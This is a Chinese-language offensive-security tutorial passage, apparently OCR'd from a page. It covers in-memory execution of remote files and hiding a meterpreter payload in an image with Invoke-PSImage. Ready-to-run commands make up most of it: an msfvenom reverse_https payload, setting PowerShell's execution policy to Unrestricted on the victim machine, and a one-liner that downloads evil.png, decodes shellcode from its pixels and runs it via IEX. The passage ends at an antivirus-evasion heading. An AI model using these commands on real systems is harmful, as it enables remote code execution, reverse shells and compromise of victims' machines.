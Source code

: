 通过[工具](https://github.com/shanfenglan/sflcsharp-assembly)下载远程文件到内存中直接执行

```cmd
C:\Users\root\Desktop>sflcsharp.exe -b http://192.168.211.1/artifact.exe
```

# RGB隐写上线

使用嵌入方法，每个像素中2个颜色值的最低有效4位用于保存有效负载。

1. 使用cs生成payload.ps1或者适用msf生成

   ```bash
   root@kali:~/# msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.253.8 LPORT=5555 -f psh-reflection > payload.ps1
   ```

2. 受害机器上设置执行策略

   ```powershell
   PS C:\Users\root\Desktop\Invoke-PSImage-master> Set-ExecutionPolicy Unrestricted -Scope CurrentUser
   ```

3. 导入Invoke-PSImage.ps1文件

   ```powershell
   PS C:\Users\root\Desktop\Invoke-PSImage-master> Import-Module .\Invoke-PSImage.ps1
   ```

4. 生成 shellcode 的图片和上线命令

   ```powershell
   PS C:\Users\root\Desktop\Invoke-PSImage-master> Invoke-PSImage -Script .\payload.ps1 -Out .\evil.png -Image .\1.png -Web
   sal a New-Object;Add-Type -A System.Drawing;$g=a System.Drawing.Bitmap((a Net.WebClient).OpenRead("http://example.com/evil.png"));$o=a Byte[] 3780;(0..14)|%{foreach($x in(0..251)){$p=$g.GetPixel($x,$_);$o[$_*252+$x]=([math]::Floor(($p.B-band15)*16)-bor($p.G -band 15))}};IEX([System.Text.Encoding]::ASCII.GetString($o[0..3538]))
   ```

5. 把这个图片上传到服务器，并修改代码的ip执行就可以上线。

   ```powershell
   PS C:\Users\root\Desktop\Invoke-PSImage-master> sal a New-Object;Add-Type -A System.Drawing;$g=a System.Drawing.Bitmap((a Net.WebClient).OpenRead("http://192.168.211.1/evil.png"));$o=a Byte[] 3780;(0..14)|%{foreach($x in(0..251)){$p=$g.GetPixel($x,$_);$o[$_*252+$x]=([math]::Floor(($p.B-band15)*16)-bor($p.G -band 15))}};IEX([System.Text.Encoding]::ASCII.GetString($o[0..3538]))
   ```







# 免杀
